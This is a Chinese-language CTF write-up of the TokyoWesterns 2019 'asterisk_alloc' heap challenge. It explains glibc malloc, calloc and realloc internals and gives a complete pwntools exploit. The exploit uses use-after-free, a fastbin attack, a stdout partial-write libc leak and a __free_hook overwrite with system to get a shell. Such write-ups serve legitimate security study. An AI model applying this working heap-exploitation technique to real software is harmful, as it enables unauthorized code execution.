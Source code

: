 ```yaml
---
title: 'TokyoWesterns2019:asterisk_alloc'
date: 2019-12-18 21:50:25
tags: heap
---
```

realloc save the world
<!--more-->
# prologue
之前的一题,队友当时解决的,感觉这题挺有趣的我就复现了一下。
[attachment][0]
因为是上周做的最近有点忙记不太清了..具体依照记忆来复述
# analysis

```s
[*] '/home/n132/Desktop/asterisk/asterisk'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

```
保护全开主要的问题是`UAF`,比较好玩的是题目结合了`malloc`,`realloc`,`calloc`.在做题前得了解一下三者特性...

`malloc`: 平时了解的最多就不说了.

`calloc`: 之前简单认为是`malloc`+`memset`为0,现在粗略看了看[源码][1]发现其实是`_int_malloc`+`memset`不是`libc_malloc`也就是说不走`tcache`..还有一点是他其实也是有`hook`的但是他没有单独的`hook`用的是`__malloc_hook`

`realloc`: 应该算是本题的主角了可以说本题前面两个都是打杂的,这题也让我知道了原来`realloc`可以干这么多的事情,我在下一小节中介绍.

## realloc(ptr,size)

`https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3136`

具体的就不详细说明了源码是最好的老师`realloc`和`_int_realloc`看一遍基本就差不多了
 
从源码来看`realloc`主要会遇到以下情况(下面的说法是不严谨的主要为了便于理解)
1. size==0 相当于 _libc_free (返回值是0)
2. ptr=0   相当于 _libc_malloc 
3. chunk-expand 采用先看本chunk再看nextchunk都不行那就`alloc+copy+free`的策略
4. chunk-shrink 直接切分.

所以本题中唯一可以清空指针的地方也就是`realloc(ptr,0)`.
而`malloc`,`realloc`只能用一次.
然后我们在看本题是没有直接的泄漏点的要么`partial-write` 要么`IO leak` ···目前的经验来看大多情况下两者结合起来是最优解...

于是乎我们就要获得一个`unsorted bin`然后`partial write`指向`stdout`结构体之后改写之.

但是我们一共只有3个可用指针也就是说`malloc`/`calloc`只能用一次.
还有就是`calloc`不会从`tcache`上取`chunk`

但是要改写`stdout`我们至少需要2个chunk:
1. 1个是最终控制stdout区域的 (后文中命名为`1号`)
2. 第二个是拿掉`bins`链上最顶端的那个需要的(后文中命名为`2号`)

但是事实上我们还需要在这之前完成`partial-write`需要的`3号`
所以让我们现在分配一下任务.
首先是最灵活的`realloc`毫无疑问是是`3号`因为另外两者都只能用一次但是在泄漏后还有`get_shell`的重要任务所以只有最灵活的`realloc`可以担此大任
然后是`calloc`这个最辣鸡的...不可能是`1号`了因为如果他是`1号`会对内存`memset`为0那我们就没办法`partial_write` stduot了.所以`2号`是`calloc`··`1号`是`malloc`

此处还有个问题是`calloc`不会取`tcache`所以我们得做`fastbin atk`

所以我们的思路很清楚了
# solution
1. `realloc`乱七八糟一顿操作完成`fastbin atk`的布局
2. `calloc(0x68)`拿掉`fastbin[5]`顶端那个
3. `malloc(0x68)`改写`stdout` 造成泄漏
4. `realloc`乱七八糟一顿操作控制`__free_hook`
5. getshell

所以我们目前的关键就是**乱七八糟一顿操作**
oh.还有一点刚才忘记说了本题有个`scanf("%d")`可以直接召唤`malloc_consolidate`
那么我们怎么操作呢

经过我的尝试。我把上面**乱七八糟一顿操作**归结为如何造成`overlap`这个简单的问题.
过程我就不说了直接上结论如何使用`realloc` 完成任意地址写.
```python
add(0x88+0x20+0x20)
add(0x88+0x20)
add(0x88)
add(0)
add(0x18)
for x in range(7):
    free()
add(0)
add(0x88)
cmd("1"*0x420)
add(0x88+0x20,"A"*0x88+p64(0x21)+p64('somewhere...'))
```

主要就是通过`expand`来完成.

这样以来这题的思路的每一个环节都被打通所以我们可以就有了如下exp


# exp
概率为1/16
```python
from pwn import *
#context.log_level='debug'
context.arch='amd64'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one = [0x4f2c5,0x4f322,0x10a38c]
def cmd(c):
	p.sendlineafter(": ",str(c))
def malloc(size,c="A"):
	cmd(1)
	cmd(size)
	p.sendafter(": ",c)
def calloc(size,c='A'):
	cmd(2)
	cmd(size)
	p.sendafter(": ",c)
def realloc(size,c="A"):
	cmd(3)
	cmd(size)
	if size!=0:
		p.sendafter(": ",c)
	else:
		p.readuntil(": ")
def free(idx):
	if idx ==0:
		c="m"
	elif idx==1:
		c='c'
	else:
		c='r'
	cmd(4)
	cmd(c)
p=process('./pwn')
#p=remote("buuoj.cn",28744)
realloc(0x68)
for x in range(7):
	free(2)
realloc(0)
realloc(0x68)
realloc(0x88+0x20)

realloc(0x88)
for x in range(7):
	free(2)
realloc(0)
realloc(0x88)

realloc(0x68,"\x1d\x07")
#gdb.attach(p)
calloc(0x68)
malloc(0x68,'\x00'*0x33+p64(0x1802)+'\x00'*0x19)
p.read(0x80)
base=u64(p.read(8))-(0x7ffff7dd0700-0x7ffff79e4000)
libc.address=base
log.warning(hex(base))
realloc(0x68,p64(0x7ffff7dcfca0-0x7ffff79e4000+base)*2)

realloc(0)
realloc(0x98+0x88)
realloc(0x98)
realloc(0)
realloc(0x88)
free(2)
realloc(0)
realloc(0x98)
realloc(0x98+0x88,'\x00'*0x98+p64(0x91)+p64(libc.sym['__free_hook']-8))
realloc(0)
realloc(0x88)
realloc(0x68)
realloc(0)
realloc(0x88,"/bin/sh\x00"+p64(libc.sym['system']))
#gdb.attach(p)
free(2)

p.interactive()
# set stdou to leak
# free_hook
0x000555555756030
```




[0]: https://github.com/n132/WriteUps/tree/master/2019_TokyoWesterns
[1]: https://code.woboq.org/userspace/glibc/malloc/malloc.c.html#3372